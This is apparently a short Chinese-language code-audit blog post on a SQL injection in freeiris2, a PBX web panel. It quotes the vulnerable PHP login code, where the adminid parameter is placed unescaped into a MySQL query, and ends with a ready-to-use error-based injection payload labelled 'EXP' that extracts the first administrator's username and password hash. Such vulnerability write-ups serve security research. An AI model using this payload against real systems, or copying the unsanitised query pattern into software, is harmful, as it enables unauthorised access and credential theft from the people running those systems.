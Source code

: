 title: "freeiris2 SQL Injection"
date: 2013-06-09 23:29:24
tags:
id: 216
comment: false
categories:
  - 代码审计
---

<pre class="brush:php">官网：http://www.freeiris.org

....cpanel/index.php
function do_login() {
	global $rpcpbx;
	global $smarty;
	global $friconf;

	//忘记填写参数
	if (trim($_REQUEST['adminid']) == "")
		error_popbox(103,null,null,null,null,'submit_failed');
	if (trim($_REQUEST['passwd']) == "")
		error_popbox(103,null,null,null,null,'submit_failed');

	//发送请求验证login
	$rpcres = sendrequest($rpcpbx-&gt;base_clientlogin($_REQUEST['adminid'],md5($_REQUEST['passwd'])),1);

	//成功(不会在这里出现失败)
	session_cache_expire($friconf['session_expiry']);
	session_start();
	$_SESSION["admin"] = true;
	$_SESSION["res_admin"] = $rpcres['res_admin'];

	//回调地址
	if (trim($_REQUEST['callback']) != "") {
		error_popbox(null,null,null,null,$_REQUEST['callback'],'submit_successfuly');
	} else {
		error_popbox(null,null,null,null,'main.php','submit_successfuly');
	}

	exit;
}

......rpcpbx.php
function base_clientlogin($adminid,$passwd)
{
	global $freeiris_conf;
	global $dbcon;

	//判断用户帐户
	$result=mysql_query("select * from admin where adminid = '$adminid' and passwd = '$passwd'",$dbcon); //adminid直接进去了。
	if (!$result)
		return(rpcreturn(500,mysql_error(),100,null));
	$queryres = mysql_fetch_array($result);
	mysql_free_result($result);

	//如果不存在
	if (!$queryres) {
		return(rpcreturn(401,'authorization failed',102,null));
	} else {
		//为这个远程呼叫产生session
		session_start();
		$_SESSION["client_authorized"] = true;

		return(rpcreturn(200,null,null,array('res_admin'=&gt;$queryres)));
	}

	return($result);
}

EXP

adminid=1' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((select adminid from admin limit 0,1),0x7c,(select passwd from admin limit 0,1),0x7c,FLOOR(RAND(0)*2))x from  information_schema.tables GROUP BY x)a) AND '1'='1</pre>